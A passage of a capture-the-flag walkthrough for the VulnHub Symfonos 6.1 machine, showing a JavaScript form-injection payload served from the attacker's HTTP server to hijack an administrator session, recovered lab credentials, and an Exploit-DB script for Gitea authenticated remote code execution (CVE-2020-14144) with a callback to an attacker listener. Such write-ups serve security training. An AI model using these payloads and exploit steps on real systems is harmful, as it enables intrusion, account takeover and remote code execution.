 		var d1 = document.getElementById('menu');
		d1.insertAdjacentHTML('afterend', txt);
		document.getElementById("hacked_form").submit();
		```
	5. Start a python HTTP server hosting `script.js`
		```
		┌──(root💀kali)-[~/vulnHub/Symfonos-6.1/192.168.110.24/exploit]
		└─# python3 -m http.server 80
		Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
		```
	6. Wait for administrator to visit the post, `script.js` is queried
		```
		┌──(root💀kali)-[~/vulnHub/Symfonos-6.1/192.168.110.24/exploit]
		└─# python3 -m http.server 80
		Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
		192.168.110.24 - - [11/Feb/2022 01:10:00] "GET /script.js HTTP/1.1" 304 -
		```
	- [POC Video](https://www.youtube.com/watch?v=eCf9a0QpnPs)
6. Login w/ hacker:12345678
	![](Pasted%20image%2020220211011215.png)
	- achilles:h2sBr9gryBunKdF9
	

## 	TCP/3000 (HTTP) - Gitea RCE (Authenticated)
1. Start a listener
2.  Use the exploit we found earlier `multiple/webapps/49571.py`
	```
	┌──(root💀kali)-[~/vulnHub/Symfonos-6.1/192.168.110.24/exploit]
	└─# python3 49571.py -t http://$ip:3000 -u achilles -p h2sBr9gryBunKdF9 -I 192.168.110.4 -P 1337
		_____ _ _______
	   / ____(_)__   __|             CVE-2020-14144
	  | |  __ _   | | ___  __ _
	  | | |_ | |  | |/ _ \/ _` |     Authenticated Remote Code Execution
	  | |__| | |  | |  __/ (_| |
	   \_____|_|  |_|\___|\__,_|     GiTea versions >= 1.1.0 to <= 1.12.5

	[+] Starting exploit ...
	hint: Using 'master' as the name for the initial branch. This default branch name
	hint: is subject to change. To configure the initial branch name to use in all
	hint: of your new repositories, which will suppress this warning, call:
	hint: 
	hint: 	git config --global init.defaultBranch <name>
	hint: 
	hint: Names commonly chosen instead of 'master' are 'main', 'trunk' and
	hint: 'development'. The just-created branch can be renamed via this command:
	hint: 
	hint: 	git branch -m <name>
	Initialized empty Git repository in /tmp/tmp.hAJ2fkCy4d/.git/
	[master (root-commit) cae0214] Initial commit
	 1 file changed, 1 insertion(+)
	 create mode 100644 README.md
	Enumerating objects: 3, done.
	Counting objects: 100% (3/3), done.
	Writing objects: 100% (3/3), 241 bytes | 241.00 KiB/s, done.
	[+] Exploit completed !
	```
	![](vmware_UegsLHr7c3.gif)
3. [Manual exploit](https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/)
